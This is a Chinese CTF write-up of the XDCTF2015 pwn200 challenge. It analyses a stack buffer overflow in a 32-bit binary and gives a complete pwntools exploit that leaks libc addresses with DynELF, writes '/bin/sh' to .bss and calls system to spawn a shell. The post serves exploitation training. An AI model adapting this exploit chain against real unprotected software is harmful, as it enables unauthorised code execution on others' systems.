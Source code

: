 ```yaml
---
layout:     post
title:      "XDCTF2015之pwn200"
subtitle:   "DynELF实现无libc利用"
date:       2018-06-19 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```

## 0x00 代码分析

检查保护，只开启了NX

	gdb-peda$ checksec
	CANARY    : disabled
	FORTIFY   : disabled
	NX        : ENABLED
	PIE       : disabled
	RELRO     : Partial


IDA伪代码

	ssize_t sub_8048484()
	{
	  char buf; // [esp+1Ch] [ebp-6Ch]
	
	  setbuf(stdin, &buf);
	  return read(0, &buf, 0x100u);
	}

	int __cdecl main()
	{
	  int buf; // [esp+2Ch] [ebp-6Ch]
	  int v2; // [esp+30h] [ebp-68h]
	  int v3; // [esp+34h] [ebp-64h]
	  int v4; // [esp+38h] [ebp-60h]
	  int v5; // [esp+3Ch] [ebp-5Ch]
	  int v6; // [esp+40h] [ebp-58h]
	  int v7; // [esp+44h] [ebp-54h]
	
	  buf = 1668048215;
	  v2 = 543518063;
	  v3 = 1478520692;
	  v4 = 1179927364;
	  v5 = 892416050;
	  v6 = 663934;
	  memset(&v7, 0, 0x4Cu);
	  setbuf(stdout, (char *)&buf);
	  write(1, &buf, strlen((const char *)&buf));
	  sub_8048484();
	  return 0;
	}

汇编代码(关键函数sub_8048484)
	
	.text:08048484 sub_8048484     proc near               ; CODE XREF: main+A1↓p
	.text:08048484
	.text:08048484 buf             = byte ptr -6Ch
	.text:08048484
	.text:08048484 ; __unwind {
	.text:08048484                 push    ebp
	.text:08048485                 mov     ebp, esp
	.text:08048487                 sub     esp, 88h
	.text:0804848D                 mov     eax, ds:stdin
	.text:08048492                 lea     edx, [ebp+buf]
	.text:08048495                 mov     [esp+4], edx    ; buf
	.text:08048499                 mov     [esp], eax      ; stream
	.text:0804849C                 call    _setbuf
	.text:080484A1                 mov     dword ptr [esp+8], 100h ; nbytes
	.text:080484A9                 lea     eax, [ebp+buf]
	.text:080484AC                 mov     [esp+4], eax    ; buf
	.text:080484B0                 mov     dword ptr [esp], 0 ; fd
	.text:080484B7                 call    _read
	.text:080484BC                 leave
	.text:080484BD                 retn
	.text:080484BD ; } // starts at 8048484
	.text:080484BD sub_8048484     endp

明显sub_8048484()里read函数导致buf溢出

## 0x01 漏洞利用

该程序无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下借助DynELF实现利用的要点：

**先用write函数Memleak出目标主机systemAddr（leak函数里面对接收数据的处理尤其重要），再将/bin/sh写入bss段，用三个pop ret ROP调用system函数拿下shell**

## 0x02 脚本代码

	#!usr/bin/python
	# -*- coding: utf-8 -*-
	from pwn import *
	import pwnlib
	context(os='linux', log_level='debug')
	p = process("./pwn200")
	elf = ELF("./pwn200")
	writeplt = elf.symbols['write']
	readplt = elf.symbols['read']
	main_address =0x080484BE      #调用main函数
	bss_address =0x0804a020    #bss段,用来写入“/bin/sh\0”
	def leak(address):
	  payload = "A" * 112
	  payload += p32(writeplt)
	  payload += p32(main_address)
	  payload += p32(1)
	  payload += p32(address)
	  payload += p32(4)
	  p.send(payload)
	  data= p.recvuntil("XDCTF2015~!\n")
	  data=data.split('Welcome')[0]
	  print "%#x => %s" % (address, (data or '').encode('hex'))
	  return data
	
	
	p.recvline()
	dynelf = DynELF(leak, elf=ELF("./pwn200"))
	systemAddress = dynelf.lookup("system", "libc") 
	print "systemAddress:=====", hex(systemAddress)
	
	
	ppprAddress = 0x0804856c  #连续3次pop的ROP
	payload1 = "A" * 112
	payload1 += p32(readplt)
	payload1 += p32(ppprAddress)
	payload1 += p32(0)
	payload1 += p32(bss_address)
	payload1 += p32(8)
	payload1 += p32(systemAddress) + p32(main_address) + p32(bss_address)
	
	p.send(payload1)
	p.send('/bin/sh\x00')
	
	p.interactive()

## 0x03 总结

最开始我在leak函数里面，反复调用sub_8048484()，避免接收 "Welcome to XDCTF2015~!"
这个字符串，但是发现这样找到system地址返回后调用时可能堆栈出现了点问题，如果要这样用的话可以在找到地址后覆盖main函数已平衡栈空间，再进行下一步。

[文件下载](https://github.com/yxshyj/project/tree/master/pwn/XDCTF2015%E4%B9%8Bpwn200)

